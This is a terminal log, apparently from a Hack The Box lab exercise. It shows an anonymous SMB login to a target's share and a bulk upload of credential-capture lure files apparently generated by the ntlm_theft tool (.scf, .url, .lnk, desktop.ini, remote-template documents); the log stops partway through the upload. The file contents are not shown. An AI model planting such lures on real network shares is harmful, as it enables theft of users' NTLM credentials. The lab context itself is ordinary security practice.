 ```
──(root㉿kali)-[/home/…/Downloads/Tools/ntlm_theft/atom_htb]
└─# smbclient -U '' //10.10.10.237/Software_Updates            
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 30 15:57:02 2024
  ..                                  D        0  Sat Nov 30 15:57:02 2024
  client1                             D        0  Sat Nov 30 15:57:02 2024
  client2                             D        0  Sat Nov 30 15:57:02 2024
  client3                             D        0  Sat Nov 30 15:57:02 2024
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

                4413951 blocks of size 4096. 1369852 blocks available
smb: \> cd client1
smb: \client1\> mput *
Put file atom_htb.m3u? yes
putting file atom_htb.m3u as \client1\atom_htb.m3u (0.4 kb/s) (average 0.4 kb/s)
Put file zoom-attack-instructions.txt? yes
putting file zoom-attack-instructions.txt as \client1\zoom-attack-instructions.txt (1.0 kb/s) (average 0.7 kb/s)
Put file atom_htb-(externalcell).xlsx? yes
putting file atom_htb-(externalcell).xlsx as \client1\atom_htb-(externalcell).xlsx (45.0 kb/s) (average 16.2 kb/s)
Put file atom_htb-(url).url? yes
putting file atom_htb-(url).url as \client1\atom_htb-(url).url (0.5 kb/s) (average 12.5 kb/s)
Put file Autorun.inf? yes
putting file Autorun.inf as \client1\Autorun.inf (0.7 kb/s) (average 10.3 kb/s)
Put file atom_htb-(fulldocx).xml? yes
putting file atom_htb-(fulldocx).xml as \client1\atom_htb-(fulldocx).xml (358.0 kb/s) (average 98.5 kb/s)
Put file atom_htb.wax? yess
putting file atom_htb.wax as \client1\atom_htb.wax (0.5 kb/s) (average 86.4 kb/s)
Put file atom_htb.jnlp? yes
putting file atom_htb.jnlp as \client1\atom_htb.jnlp (1.7 kb/s) (average 77.1 kb/s)
Put file atom_htb-(remotetemplate).docx? yes
putting file atom_htb-(remotetemplate).docx as \client1\atom_htb-(remotetemplate).docx (167.8 kb/s) (average 89.1 kb/s)
Put file atom_htb.application? yes
putting file atom_htb.application as \client1\atom_htb.application (14.1 kb/s) (average 82.3 kb/s)
Put file atom_htb-(frameset).docx? yes
putting file atom_htb-(frameset).docx as \client1\atom_htb-(frameset).docx (90.8 kb/s) (average 83.0 kb/s)
Put file atom_htb-(stylesheet).xml? yes
putting file atom_htb-(stylesheet).xml as \client1\atom_htb-(stylesheet).xml (1.4 kb/s) (average 76.7 kb/s)
Put file atom_htb.scf? yes
putting file atom_htb.scf as \client1\atom_htb.scf (0.7 kb/s) (average 71.5 kb/s)
Put file atom_htb.asx? yes
putting file atom_htb.asx as \client1\atom_htb.asx (1.2 kb/s) (average 66.6 kb/s)
Put file atom_htb-(icon).url? yes
putting file atom_htb-(icon).url as \client1\atom_htb-(icon).url (0.8 kb/s) (average 62.0 kb/s)
Put file atom_htb.pdf? yes
putting file atom_htb.pdf as \client1\atom_htb.pdf (6.5 kb/s) (average 58.8 kb/s)
Put file atom_htb.htm? yes
putting file atom_htb.htm as \client1\atom_htb.htm (0.7 kb/s) (average 55.7 kb/s)
Put file atom_htb.rtf? yes
putting file atom_htb.rtf as \client1\atom_htb.rtf (0.9 kb/s) (average 53.0 kb/s)
Put file atom_htb.lnk? yes
putting file atom_htb.lnk as \client1\atom_htb.lnk (19.0 kb/s) (average 51.4 kb/s)
Put file desktop.ini? yes
putting file desktop.ini as \client1\desktop.ini (0.4 kb/s) (average 49.0 kb/s)
Put file atom_htb-(includepicture).docx? yes
```